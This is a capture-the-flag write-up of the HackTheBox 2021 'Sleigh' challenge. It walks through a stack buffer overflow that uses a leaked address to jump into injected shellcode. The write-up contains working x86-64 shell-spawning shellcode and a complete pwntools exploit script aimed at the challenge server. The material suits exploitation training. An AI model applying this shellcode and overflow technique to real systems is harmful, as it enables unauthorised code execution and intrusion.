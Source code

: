 # Cyber Santa is Coming to Town (Pwn Sleigh)
Sleigh was i think the second exploitation challenge of the Hackthebox Christmas 2021 event, it was a pretty great challenge, a bit easy once again but it was fun. The name of the challenge is also pretty accurate since we will need to "**sleigh**" back to a variable to execute our shellcode.

## Solving The Challenge
Okay so when running the challenge, we are asked if we wan't to **repair** the sleigh or **abandon** it. Abandoning it will cause the challenge to exit, while repair will asks us for more input.

When we select repair, the program leaks the address of our input, then the  program calls read and asks us for the input. The thing is, we have the address of our input, and since we read **0xa4 bytes** in a buffer of **64 bytes** we can overflow the return address, we can write some shellcode at the beginning of our input, put a little bit of padding and overwrite the return address of the current function for the address of our input, since the beginning of our input contains valid code, it should execute !

This challenge is great if your practicing shellcoding, you can pretty much write any kind of shellcode less than 72 bytes, put it at the beginning of your input and it should execute it.

As a test to see if my shellcode was working at the beginning i made the following shellcode which is just an exit syscall with a certain number, when a program exit you can usually check the exit number and therefore confirm if you were indeed able to inject code :
```x86asm
.global _start
_start:
.intel_syntax noprefix
    # Clear Registers
    xor rdi, rdi
    # Syscall
    mov rax, 60
    mov rdi, 69
    syscall
```

To inject this code you would need to input the raw bytes of it at the beginning of your input, then put some padding with "A" until you reach 72 bytes, then it's time to overflow the return address, so you can just add the leaked address to your payload, and if you correctly overwritten the return address of the function it should execute your shellcode and exit with the code number 69.

To solve the challenge i used the following code :
```py
import pwn

pwn.context.arch = "amd64"

local = False

if local:
    io = pwn.process("./sleigh")
else:
    io = pwn.remote("178.62.75.187", 30496)

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

pwn.log.info(f"Shellcode Length = {len(shellcode)}")
io.sendlineafter(b"> ", b"1")
io.recvuntil(b"sleigh: ")
addr = int(io.recvline().decode().strip("[").replace("]", ""), 16)
pwn.log.info(f"Leaked Address {addr}")
payload = shellcode + (72 - len(shellcode)) * b"A" + pwn.p64(addr)
io.sendline(payload)
io.interactive()
```

Running this code either locally or remotely should drop you a shell, note that you can practice writing your own shellcode, but the problem with the read function is that it reads input until it encounters a new line, this means if you write shellcode for this challenge it can't contains any 0x0a opcodes, for those who study at ASU you should be pretty good evading filters on shellcode :P


